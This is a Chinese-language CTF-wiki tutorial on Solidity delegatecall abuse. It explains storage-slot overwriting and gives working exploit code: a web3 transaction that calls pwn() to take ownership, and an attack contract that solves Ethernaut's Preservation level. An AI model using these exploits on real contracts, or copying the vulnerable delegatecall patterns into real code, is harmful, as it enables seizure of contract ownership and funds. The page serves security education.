


# Delegatecall

> There exists a special variant of a message call, named delegatecall which is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and msg.sender and msg.value do not change their values.

## 原理

### 三種調用函數

在 Solidity 中，call 函數簇可以實現跨合約的函數調用功能，其中包括 call、delegatecall 和 callcode 三種方式。

#### 調用模型

```
<address>.call(...) returns (bool)
<address>.callcode(...) returns (bool)
<address>.delegatecall(...) returns (bool)
```

這些函數提供了靈活的方式與合約進行交互，並且可以接受任何長度、任何類型的參數，其傳入的參數會被填充至 32 字節最後拼接爲一個字符串序列，由 EVM 解析執行。

在函數調用的過程中，Solidity 中的內置變量 `msg` 會隨着調用的發起而改變，`msg` 保存了調用方的信息包括：調用發起的地址，交易金額，被調用函數字符序列等。

#### 異同點

* call: 調用後內置變量 `msg` 的值會修改爲調用者，執行環境爲被調用者的運行環境
* delegatecall: 調用後內置變量 `msg` 的值不會修改爲調用者，但執行環境爲調用者的運行環境（相當於複製被調用者的代碼到調用者合約）
* callcode: 調用後內置變量 `msg` 的值會修改爲調用者，但執行環境爲調用者的運行環境

!!! note
    Warning: "callcode" has been deprecated in favour of "delegatecall"

### Delegatecall 濫用

#### 設計初衷

* 函數原型 `<address>.delegatecall(...) returns (bool)`
* 函數設計的目的是爲了使用給定地址的代碼，其他信息則使用當前合約（如存儲、餘額等）
* 某種程度上也是爲了代碼的複用

#### 威脅分析

參考函數原型，我們知道，delegatecall 調用有 `address` 和 `msg.data` 兩個參數

* 若 `msg.data` 可控，則可調用 `address` 處任意函數

```solidity
pragma solidity ^0.4.18;

contract Delegate {

    address public owner;

    function Delegate(address _owner) public {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {

    address public owner;
    Delegate delegate;

    function Delegation(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    function() public {
        if(delegate.delegatecall(msg.data)) {
            this;
        }
    }
}
```

對於這個例子，攻擊者如何成爲 owner 呢？

其實我們只需調用 Delegation 的假 `pwn()` 即可，這樣就會觸發 Delegation 的 `fallback`，這樣 `pwn` 的函數簽名哈希就會放在 `msg.data[0:4]` 了，這樣就會只需 delegate 的 `pwn()` 把 owner 變成自己，如下所示即可（這就是因爲 `msg.data` 可控導致的）

```
contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)})
```

* 若 `msg.data` 和 `address` 都可控，則可調用任意 `address` 處的任意函數

同理，只不過額外加了 `address` 是可控的這個條件，不再作分析

#### 原因分析

```solidity
pragma solidity ^0.4.23;

contract A {
    address public c;
    address public b;
    
    function test() public returns (address a) {
        a = address(this);
        b = a;
    }
}

contract B {
    address public b;
    address public c;
    
    function withdelegatecall(address testaddress) public {
        testaddress.delegatecall(bytes4(keccak256("test()")));
    }
}
```

來看上面這個例子，假設合約 A 部署後地址爲 address_a，合約 B 部署後地址爲 address_b，使用 外部賬戶 C 調用 withdelegatecall(address_a)，address_a 和 address_b 中的 b、c 變量分別是多少？結果如下

address_a 合約中，c = 0，b = 0；address_b 合約中，b = 0，c = address_b

修改的不是 B 合約中的 b 變量，而是修改了 B 合約中的 c 變量



sstore 即訪存指令，可以看到寫入的是 1 號存儲位，1號存儲位 在 B 合約中即對應變量 c，在 A 合約中則對應變量 b，所以事實上調用 delegatecall 來使用 Storage 變量時依據並不是變量名，而是變量的存儲位，這樣的話我們就可以達到覆蓋相關變量的目的。

## 例子

### Source

[ethernaut](https://ethernaut.openzeppelin.com/) 第 16 題

### Analyse

- 我們調用 Preservation 的 `setFirstTime` 函數實際通過 `delegatecall` 執行了 LibraryContract 的 `setTime` 函數，修改了 slot 1 ，也就是修改了 timeZone1Library 變量
- 這樣，我們第一次調用 `setFirstTime` 將 timeZone1Library 變量修改爲我們的惡意合約的地址，第二次調用 `setFirstTime` 就可以執行我們的任意代碼了

### Exp

```solidity
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}

contract attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    
    address instance_address = 0x7cec052e622c0fb68ca3b2e3c899b8bf8b78663c;
    Preservation target = Preservation(instance_address);
    function attack1() {
        target.setFirstTime(uint(address(this)));
    }
    function attack2() {
        target.setFirstTime(uint(0x88d3052d12527f1fbe3a6e1444ea72c4ddb396c2));
    }
    function setTime(uint _time) public {
        timeZone1Library = address(_time);
        timeZone2Library = address(_time);
        owner = address(_time);
    }
}
```

先調用 `attack1()` ，再調用 `attack2()` 即可

### Result



## 題目

### RealWorld 2018
- 題目名稱 Acoraida Monica

### Balsn 2019
- 題目名稱 Creativity

### 第五空間 2020
- 題目名稱 SafeDelegatecall

### 華爲鯤鵬計算 2020
- 題目名稱 boxgame

!!! note
    注：題目附件相關內容可至 [ctf-challenges/blockchain](https://github.com/ctf-wiki/ctf-challenges/tree/master/blockchain) 倉庫尋找。

